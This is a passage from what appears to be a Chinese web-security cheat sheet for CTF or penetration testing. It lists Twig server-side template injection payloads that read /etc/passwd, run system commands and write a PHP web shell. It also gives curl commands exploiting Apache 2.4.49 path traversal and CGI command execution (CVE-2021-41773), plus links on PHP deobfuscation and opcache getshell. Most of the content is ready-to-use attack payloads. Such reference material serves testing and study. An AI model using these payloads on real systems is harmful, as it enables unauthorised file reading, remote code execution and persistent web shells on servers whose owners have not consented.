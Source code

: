 #### twig

复制

```
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")}}
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

POST /subscribe?0=cat+/etc/passwd HTTP/1.1
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
```

参考：[TWIG 全版本通用 SSTI payloads](https://xz.aliyun.com/t/7518#toc-5)



### 反混淆

https://www.zhaoyuanma.com/phpjm.html

https://yoursunny.com/p/PHP-decode/



### 中间件漏洞

#### Apache

- Apache 2.4.49

  CVE-2021-41773

  目录穿越漏洞。可以读取到Apache服务器Web目录以外的其他文件，或者读取Web中的脚本源码，或者在开启cgi或cgid的服务器上执行任意命令。

  `curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd`

  `curl -v --data "echo;命令" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'`



### 其他

#### opcache

opencache是一种php7自带的缓存引擎，它将编译过一遍的的php脚本以字节码文件的形式缓存在特定目录中（在php.ini中指定）。这样节省了每次访问同一脚本都要加载和解析的时间开销。（先检查有没有bin文件有就直接用）

[opcache缓存getshell](http://redteam.today/2018/04/08/opcache缓存getshell/)